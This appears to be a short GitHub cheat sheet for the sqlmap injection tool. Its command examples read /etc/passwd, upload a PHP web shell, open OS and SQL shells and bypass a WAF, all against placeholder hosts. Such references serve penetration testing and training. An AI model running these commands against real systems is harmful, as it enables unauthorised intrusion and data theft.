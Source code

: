 # Sqlmap
Automatic SQL injection and database takeover tool  

### Download
https://github.com/sqlmapproject/sqlmap via git clone https://github.com/sqlmapproject/sqlmap


### Usage  
> sqlmap [options]
  
> sqlmap [--help]  
  
### Examples   
##### GET url
```bash
sqlmap -u 'http://localhost:65412/?id=2'
# Using https://github.com/stamparm/DSVW as a vulnerable web to test
```

##### POST url
```bash
sqlmap -u http://example.com/login.php --data "username=admin&pass=admin&submit=submit" -p username
# -p indicates the parameter to test
```

##### With cookies
```bash
sqlmap -u http://example.com/enter.php --cookie="PHPSESSID=1oe83iwk2871jw" -u http://example.com/index.php?id=1
```

##### Enumerate databases
```bash
sqlmap -u http://example.com/page.php?id=1 --dbs
```

##### Enumerate tables
```bash
sqlmap -u http://example.com/page.php?id=1 --tables
```

##### Read files
```bash
sqlmap -u http://example.com/page.php?id=1 --file-read=/etc/passwd
```

##### Upload Files
```bash
sqlmap -u http://example.com/page.php?id=1 --file-write=/root/shell.php --file-dest=/var/www/shell.php
```

##### OS Shell
```bash
sqlmap -u http://example.com/page.php?id=1 --os-shell
```

##### SQL Shell
```bash
sqlmap -u http://example.com/page.php?id=1 --sql-shell
```

##### Run command without shell
```bash
sqlmap -u http://example.com/page.php?id=1 --os-cmd "pwd"
```

##### Crawl a site
```bash
sqlmap -u http://example.com/ --crawl=1
```

##### Try to bypass WAF
```bash
sqlmap -u http://example.com/page.php?id=1 --tamper=apostrophemask
```
